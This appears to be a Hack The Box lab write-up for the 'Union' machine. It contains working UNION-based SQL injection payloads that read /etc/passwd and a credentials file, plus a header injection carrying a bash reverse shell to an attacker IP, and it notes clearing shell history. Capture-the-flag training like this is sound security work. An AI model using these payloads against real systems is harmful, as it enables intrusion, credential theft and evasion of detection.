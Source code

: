 # HTB: Union

## Engagement Overview

**Target:** Union   
**Local IP:** 10.10.16.9  
**Box IP:** 10.10.11.128  
**Date:** 2025-07-28  

---

### Objectives

- Enumerate services and web endpoints
- Identify SQL Injection vulnerability
- Extract credentials and escalate to SSH access
- Investigate privilege escalation paths
- Retrieve system flags

---

## Service Enumeration

**Nmap Results:**
```bash
nmap -sV -sC -oA nmap/union 10.10.11.128

Nmap scan report for 10.10.11.128
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Gobuster Findings:**
```bash
/index.php           (Status: 200) [Size: 1220]
/config.php          (Status: 200) [Size: 0]
/challenge.php       (Status: 200) [Size: 772]
/firewall.php        (Status: 200) [Size: 13]
/.htaccess           (Status: 403)
/.htpasswd           (Status: 403)
```

---

## Methodologies

1. **Web Enumeration** using Gobuster and manual browsing.  
2. **SQL Injection Testing** – manually crafted UNION statements due to SQLMap filters.  
3. **Source Code Review** – extracted credentials from exposed `config.php`.  
4. **Authentication Bypass** – replayed crafted requests (see PoC).  
5. **Post-Exploitation** – leveraged command injection via manipulated `X-FORWARDED-FOR` header.  

---

## Initial Access

**Vulnerability Explanation:**  
The target web application was vulnerable to SQL Injection. SQLMap was filtered, requiring manual UNION statements to extract database contents and read sensitive files.

**SQL Injection Payloads:**

```sql
# curl -s -X POST http://10.10.11.128 -d "player='

-- Dump flag
union select group_concat(one) from flag;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Dump players table
union select group_concat(player) from players;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read OS release info
union select load_file('/etc/lsb-release');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read /etc/passwd
union select load_file('/etc/passwd');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read PHP config file (contains MySQL creds)
union select load_file('/var/www/html/config.php');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
```

**HTTP Request (flag.req):**

```http
POST /index.php HTTP/1.1
Host: 10.10.11.128
Content-Length: 12
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=mvi1jq6khbq7p2lh16hs7dntgm

player=union
```

**Penetration:**  
- Crafted UNION SQL statements to retrieve the flag and configuration data.  
- Extracted MySQL credentials from `config.php`.  
- Authenticated to the web application with extracted creds.  
- Application logic enabled SSH (via iptables) upon successful authentication.  

**SSH Access:**  
Logged in successfully using MySQL credentials.  

---

## Privilege Escalation

After gaining shell access, source code analysis revealed the application used an IP whitelisting function based on the `X-FORWARDED-FOR` header.  
This input was unsanitized and allowed direct **command injection**.  

By forging the header with injected commands, root shell access was obtained.  

```bash
# Burp Repeater

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
```

---

## House Cleaning

- Removed enumeration artifacts.  
- Cleared shell history.  
- Left no residual processes or altered configurations.  

---

## Post-Exploitation

**Tools Utilized**  
- `nmap`  
- `gobuster`  
- Burp Suite (for request replay)  
- Manual SQL Injection (UNION)  
- SSH  

**Key Takeaways**  
- SQLMap filters can be bypassed by manual UNION-based injection.  
- Configuration files (`config.php`) often expose credentials.  
- Application logic enabling SSH through iptables demonstrates chained exploitation.  
- Blindly trusting headers (`X-FORWARDED-FOR`) introduces critical injection vectors.  
